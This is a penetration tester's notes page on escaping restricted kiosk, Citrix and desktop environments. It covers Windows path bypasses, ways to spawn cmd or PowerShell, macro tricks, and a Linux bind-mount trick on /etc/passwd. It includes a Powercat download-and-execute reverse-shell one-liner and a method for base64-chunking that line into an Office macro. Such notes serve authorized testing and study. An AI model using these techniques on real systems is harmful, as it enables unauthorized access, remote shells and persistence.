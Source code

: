 ```yaml
---
layout: blank
pagetitle: Kiosk Breakouts
---
```


Amazing resource: [https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/#dialogboxes](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/#dialogboxes)

Kiosk breakout badusb script: [https://github.com/KhaelK138/badusb-windows-kiosk-breakout/blob/main/breakout_payload.txt](https://github.com/KhaelK138/badusb-windows-kiosk-breakout/blob/main/breakout_payload.txt)

## Windows

**Bypassing Path Restrictions**
- Sometimes, paths like `C:\Windows\` will be restricted, but we can use `%WINDIR%` or `shell:MyComputerFolder` to bypass this
  - More path bypasses can be found in the link at above
- Other protocol handlers, such as `about:`, `data:`, `ftp:`, `mailto:`, `news:`, `res:`, `telnet:`, `snews:`, or `view-source:` can also be an avenue for a breakout
  - [This website](https://www.phrack.me/tools/2022/11/02/Kiosk-Breakout.html) provides links to a lot of these
  - FTP has specific command execution functionality, which can be used to bypass restrictions
    - `ftp` and then `!"{command_to_run}"`, such as `!"dir C:\Windows\System32"`
  - Hell even `calculator://localhost` exists, don't ask me why
  - Same goes for UNC paths, such as `\\127.0.0.1\C$\Windows\System32`

**Getting a Shell**
- Can simply run (Win+R) programs like `cmd`, `powershell`, or `powershell_ISE`
- Can right click and "open" the file
- Can drop another file, like a `.txt`, onto the `cmd` binary
- Can hyperlink to it via a file/web browser (`file:///C:/Windows/System32/cmd.exe` or `file:///C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe`)
- Can place direct commands in `.bat` or `.cmd` files, such as something as simple as `powershell`
  - For a full list of executable file types: [https://aerorock.co.nz/list-of-executable-file-extensions-windows/](https://aerorock.co.nz/list-of-executable-file-extensions-windows/)
- Can run Visual Basic inside a `.vbs` file with the following `set objApp = CreateObject("WScript.Shell"): objApp.Run "powershell"`
- Can simply right-click and say "open in terminal", which can surprisingly work sometimes

**Bypassing Disabled Interactive Sessions**
- If `cmd` is run with `/K` or `/C`, it won't allow for interactive commands
  - This can be bypassed by running `cmd.exe /K pause` or provided a command with `cmd.exe /C {command}`

**Bypassing Name Restrictions**
- It can sometimes be as easy as renaming `cmd.exe` to `mspaint.exe`

**Utilizing Internet Explorer**
- `file://c:\windows\system32\cmd.exe` is always a good shot
- Menus can open up all sorts of functionality
- Right-clicking images (or ctrl+s) can save-as, popping a file dialog
  - `file` > `Customize Internet Explorer view source` > `other` can allow us to set the application to view source as `C:\Windows\System32\cmd.exe`
- Favorites menu (with alt+c) and dragging a folder onto the browser window can work wonders
- Setting homepage to `cmd.exe` can also work
- Browser-based exploits - Metasploit can help host a webpage to exploit Explorer

**Citrix**
- If we can modify the `.ICA` file that Citrix uses as configuration, we can add `InitialProgram=cmd.exe` 

**Breaking out with MS Paint?!?!**
- Create a 6x1 canvas and setting certain pixels can allow us to write batch file code
  - RGB pixels in order: `10 0 0`, `13 10 13`, `100 109 99`, `120 101 46`, `0 0 101`, `0 0 0`
- Then, save as a 24-bit Bitmap and rename to a `.bat` file
- Finally, open the batch file

**MS Office Macros**
- We can often get a powershell Window by creating a `docx` file, opening it, and running a macro
  - To make macros: View -> Macros
  - Basic macro code that opens powershell:
	
```
Sub MyMacro()
  CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

- Powercat
  - Creates reverse shells, but detected by defender
    - Command to download/execute the reverse shell: `IEX(New-Object System.Net.WebClient).DownloadString('http://{IP}:{port}/powercat.ps1');powercat -c {IP} -p {port} -e powershell`
    - This is just grabbing a hosted powershell script
  - Can be passed to the macro by encoding it in chunks of 50 base64 characters:
    - `Dim Str as String`
    - `Str = Str + "powershell.exe -nop -w hidden -enc {base64}"`
    - `Str = Str + {base64}"`
    - `CreateObject("Wscript.Shell").Run Str`

**LOLBAS**
- Check out the binaries that can execute commands at [https://lolbas-project.github.io/#/execute](https://lolbas-project.github.io/#/execute)

## Linux

**Bypassing Read-Only File Systems**
- If we have a filesystem or directory we can't write to as root, we can try mounting over the directory instead
  - For example, let's say we can't write to `/etc/passwd`, even as root, but we want persistence
  - We can create our own version and put it in `/tmp/passwd` and then run `sudo mount -o bind /tmp/passwd /etc/passwd`
  - Now, anything that reads `/etc/passwd` will read our version, even though actual `/etc/passwd` is unchanged

